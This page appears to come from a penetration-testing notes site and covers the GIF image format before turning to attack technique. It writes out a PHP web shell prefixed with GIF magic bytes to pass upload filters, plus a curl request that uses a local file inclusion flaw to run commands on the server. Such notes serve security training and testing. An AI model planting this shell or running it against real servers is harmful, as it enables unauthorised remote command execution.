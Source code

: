 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# GIF

The GIF file type is a widely used image format that stands for Graphics Interchange Format. It was originally developed by CompuServe and has remained popular due to its portability, simplicity, and broad support across operating systems, browsers, and applications. A GIF file uses lossless compression based on the Lempel-Ziv-Welch (LZW) algorithm, which reduces file size without sacrificing image quality, though the format is limited to a color palette of 256 indexed colors. This makes GIFs efficient for graphics such as logos, icons, and simple illustrations, but less suitable for high-resolution images or photographs that require a wider color range.&#x20;

From a security perspective, GIFs are generally safe, but malformed or specially crafted files have occasionally been used to trigger vulnerabilities in poorly implemented image parsers. For example, if a webserver allows the uploading of `.gif` files (bypassing extension filters), a malicious one containing PHP code can be created, by including GIF's [magic bytes](./#server-side-filters) at the beginning of the file content (`GIF8`) (bypassing content type filters).

```bash
# Create a malicious GIF file
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# Check the file's MIME type
$ file --mime-type shell.gif
shell.gif: image/gif
```

This file on its own is harmless and would not affect normal web application. However, if we combine it with a LFI flaw, then we may be able to achieve RCE after finding its uploads directory.

```bash
# Remote command execution
curl http://<ip:port>/index.php?language=./profile_images/shell.gif&cmd=id
```
